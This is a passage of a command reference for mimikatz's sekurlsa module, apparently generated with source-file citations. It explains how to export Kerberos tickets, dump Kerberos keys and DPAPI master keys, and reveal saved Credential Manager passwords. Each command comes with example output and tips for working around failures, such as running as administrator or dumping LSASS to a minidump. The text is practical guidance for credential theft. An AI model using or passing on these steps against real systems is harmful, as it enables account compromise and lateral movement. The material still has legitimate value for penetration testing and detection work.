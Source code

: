 * **Flags:**
  * `/export` — Any argument toggles the export flag (the implementation simply checks whether arguments exist), so using `/export` or similar causes each ticket to be saved to a file. Use it when you plan to replay tickets with other tools or need them for offline analysis.【F:mimikatz/mimikatz/modules/sekurlsa/packages/kuhl_m_sekurlsa_kerberos.c†L360-L365】【F:mimikatz/mimikatz/modules/sekurlsa/packages/kuhl_m_sekurlsa_kerberos.c†L451-L463】
  
- **Example usage/output:**
  ```mimikatz
  mimikatz # sekurlsa::tickets /export
  * PAC : yes
  * ServiceName : krbtgt/CONTOSO.COM @ CONTOSO.COM
    -> Ticket : 0 ; 0 - 0x00000000 : C:\temp\krbtgt.kirbi
  ```
- **Potential errors & fixes:** `kull_m_file_writeData` errors indicate the export directory is unwritable—change to a writable folder or run as administrator.【F:mimikatz/modules/sekurlsa/packages/kuhl_m_sekurlsa_kerberos.c†L659-L661】 If tickets do not appear, ensure the account has active Kerberos sessions.

### `sekurlsa::ekeys`
- **Purpose:** Dump Kerberos key lists (NTLM, AES, etc.) for each logon session.【F:mimikatz/modules/sekurlsa/packages/kuhl_m_sekurlsa_kerberos.c†L368-L454】
- **Syntax:** `sekurlsa::ekeys`
- **Example usage/output:**
  ```mimikatz
  mimikatz # sekurlsa::ekeys
  LogonId  : 0 ; 999 (00000000:000003E7)
  * Key List :
    > aes256_hmac (32b) : c1d2...
    > rc4_hmac    (16b) : e3f4...
  ```
- **Potential errors & fixes:** Errors from `kull_m_memory_copy` when reading key lists mean LSASS modified memory; retry quickly or switch to a minidump for consistent data.【F:mimikatz/modules/sekurlsa/packages/kuhl_m_sekurlsa_kerberos.c†L440-L454】

### `sekurlsa::dpapi`
- **Purpose:** Enumerate cached DPAPI master keys for local logon sessions and reveal raw keys/SHA1 hashes.【F:mimikatz/modules/sekurlsa/packages/kuhl_m_sekurlsa_dpapi.c†L43-L103】
- **Syntax:** `sekurlsa::dpapi`
- **Example usage/output:**
  ```mimikatz
  mimikatz # sekurlsa::dpapi
  Authentication Id : 0 ; 5555 (00000000:000015B3)
  MasterKey : {GUID}
  Key       : 4d9f...
  Sha1      : 5e6a...
  ```
- **Potential errors & fixes:** Missing entries mean the user has no cached master keys; trigger DPAPI usage (e.g., open Credential Manager) and try again. Memory copy failures suggest using a minidump to stabilize structures.【F:mimikatz/modules/sekurlsa/packages/kuhl_m_sekurlsa_dpapi.c†L57-L103】

### `sekurlsa::credman`
- **Purpose:** Reveal saved Credential Manager secrets per logon session, including decrypted passwords when available.【F:mimikatz/modules/sekurlsa/packages/kuhl_m_sekurlsa_credman.c†L8-L93】
- **Syntax:** `sekurlsa::credman`
- **Example usage/output:**
  ```mimikatz
  mimikatz # sekurlsa::credman
  Authentication Id : 0 ; 7777 (00000000:00001E61)
  Target : MicrosoftAccount:user=alice@contoso.com
  User   : alice@contoso.com
  Password : P@ssw0rd!
  ```